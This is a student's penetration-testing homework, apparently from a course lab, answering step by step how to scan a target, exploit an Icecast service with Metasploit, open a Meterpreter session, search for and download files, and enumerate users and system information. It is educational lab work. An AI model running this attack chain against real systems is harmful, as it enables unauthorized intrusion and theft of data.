 **Brian C Williams** 

**17-Penetration II Homework**


You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

Run the Nmap command that performs a service and version scan against the target.

	Answer: nmap -sV 192.168.0.20

	![Image of question1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)


From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

Run the SearchSploit commands to show available Icecast exploits.

Answer: searchsploit icecast windows

[image of q2]()


Now that we know which exploits are available to us, let's start Metasploit:



Run the command that starts Metasploit:

Answer: msfconsole -u
		msfconsole 

Search for the Icecast module and load it for use.

image

Run the command to search for the Icecast module:

Answer: search icecast

image

Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: use exploit/windows/http/icecast_header
		use 0




Set the RHOST to the target machine.


Run the command that sets the RHOST:

Answer: set RHOST 192.168.0.20





Run the Icecast exploit.


Run the command that runs the Icecast exploit.

Answer: run or exploit



Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f  *secretfile.txt


You should now have a Meterpreter session open.


Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe.txt



Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt



You can also use Meterpreter's local exploit suggester to find possible exploits.

run post/multi/recon/local_exploit_suggester

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users

		
		

B. Open a Meterpreter shell and gather system information for the target.

Answer: shell 
		systeminfo
		
		

C. Run the command that displays the target's computer system information:

Answer: sysinfo

